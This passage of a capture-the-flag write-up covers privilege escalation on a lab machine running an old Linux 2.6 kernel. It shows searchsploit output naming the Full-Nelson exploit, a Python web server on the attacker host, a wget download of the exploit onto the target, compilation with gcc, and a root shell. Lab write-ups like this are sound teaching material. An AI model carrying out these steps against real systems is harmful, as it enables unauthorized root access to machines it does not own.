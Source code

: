 This is a really old kernel build and it probably has a few exploits kicking about.
 
Checking searchsploit gives dozens and dozens, but a couple of nuke level exploits stick out:
 
```
searchsploit linux kernel 2.6 nelson
----------------------------------------------------------------------------- ----------------------------------------
Exploit Title                                                               |  Path
                                                                            | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full-Nelson.c' Local Privileg | exploits/linux/local/15704.c
Linux Kernel < 2.6.36.2 (Ubuntu 10.04) - 'Half-Nelson.c' Econet Privilege Es | exploits/linux/local/17787.c
----------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```
 
Vaguely recalling a morning commute read the Full and Half Nelsons ring a bell as a reliable and deadly exploit.
 
After reading through 15704.c and doing a test compile on the attacker it looks decent enough but I need a compiler for i686 arch to run.
 
I check for the gcc compiler on popcorn:
 
``` bash
which gcc
```
 
to get
 
```
/usr/bin/gcc
```
 
Sweet, if I transfer the exploit it should compile, now on a new window I pop a quick python webserver on the attacker:
 
```
sudo python -m SimpleHTTPServer 80
```
 
Back to popcorn I move to /tmp pull the exploit over with wget and compile:
 
```
cd /tmp && wget http://10.10.14.34/15704.c
gcc 15704.c -o evil
```
 
I run the exploit
 
```
./evil
```
 
Boom! I'm root! W00tW00t!
 
```
id
uid=0(root) gid=0(root)
```
 
Time to get the flags.

